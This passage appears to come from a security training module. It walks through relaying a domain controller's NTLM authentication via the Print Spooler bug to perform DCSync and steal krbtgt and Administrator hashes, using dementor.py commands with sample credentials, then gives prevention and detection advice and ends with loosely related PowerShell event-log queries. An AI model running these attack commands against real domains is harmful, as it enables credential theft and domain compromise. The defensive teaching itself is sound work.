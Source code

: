 ```bash
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections # <--
```

Next, we need to trigger the `PrinterBug` using the Kali box with `NTLMRelayx` listening. To trigger the connection back, we'll use [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) (when running from a non-domain joined machine, any authenticated user credentials are required, and in this case, we assumed that we had previously compromised Bob):
```bash
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```

Now, switching back to the terminal session with `NTLMRelayx`, we will see that `DCSync` was successful the password hashes successfully extracted (eg, krbtgt, Administrator..).

## Prevention

Print Spooler should be disabled on all servers that are not printing servers. Domain Controllers and other core servers should never have additional roles/functionalities that open and widen the attack surface toward the core AD infrastructure.

Additionally, there is an option to prevent the abuse of the `PrinterBug` while keeping the service running: when disabling the registry key `RegisterSpoolerRemoteRpcEndPoint`, any incoming remote requests get blocked; this acts as if the service was disabled for remote clients. Setting the registry key to 1 enables it, while 2 disables it.

## Detection

Exploiting the `PrinterBug` will leave traces of network connections toward the Domain Controller; however, they are too generic to be used as a detection mechanism.

In the case of using `NTLMRelayx` to perform DCSync, no event ID `4662` is generated (as mentioned in the DCSync section); however, to obtain the hashes as DC1 from DC2, there will be a successful logon event for DC1. This event originates from the IP address of the Kali machine, not the Domain Controller.


[dc1]: PS C:\Users\Administrator\Documents> hostname
[dc1]: PS C:\Users\Administrator\Documents> whoami
[dc1]: PS C:\Users\Administrator\Documents>
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[PKI]: PS C:\Users\htb-student\Documents> Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}
[pki]: PS C:\Users\htb-student\Documents> $events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}
[pki]: PS C:\Users\htb-student\Documents> $events[0] | Format-List -Property *